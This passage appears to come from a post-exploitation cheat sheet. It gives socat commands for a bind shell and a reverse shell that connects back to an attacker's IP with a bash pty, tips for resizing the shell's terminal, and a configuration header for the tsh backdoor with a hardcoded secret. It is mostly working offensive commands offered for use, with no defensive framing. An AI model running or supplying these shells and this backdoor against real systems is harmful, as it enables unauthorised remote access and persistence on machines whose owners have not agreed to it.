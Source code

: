 ```
### Bind shell
Set listener:

```socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane```

Connect to the listener:

```socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337```

### Reverse shell
Set listener:

```socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0```

Connect to attacker’s machine:

```socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane```

### Terminal size

By default the terminal size is quite small, as you may notice when launching ```top``` command or editing files with a text editor. You can easily change this, use ```stty -a``` command to get the size of your regular teminal:

```
$ stty -a
speed 38400 baud; rows 57; columns 211; line = 0;
```
Apply desired size to your socat terminal:

```$ stty rows 57 cols 211```


## Tsh

[Tsh](https://github.com/creaktive/tsh) is a small ssh-like backdoor with full-pty terminal and with capability of file transfer. This tool has very small footprint and is easily built on most unix-like systems. Start with editing tsh.h file:

```c
#ifndef _TSH_H
#define _TSH_H

char *secret = "never say never say die";

#define SERVER_PORT 22
short int server_port = SERVER_PORT;
/*
#define CONNECT_BACK_HOST  "localhost"
#define CONNECT_BACK_DELAY 30
*/
#define GET_FILE 1
#define PUT_FILE 2
#define RUNSHELL 3

#endif /* tsh.h */
```
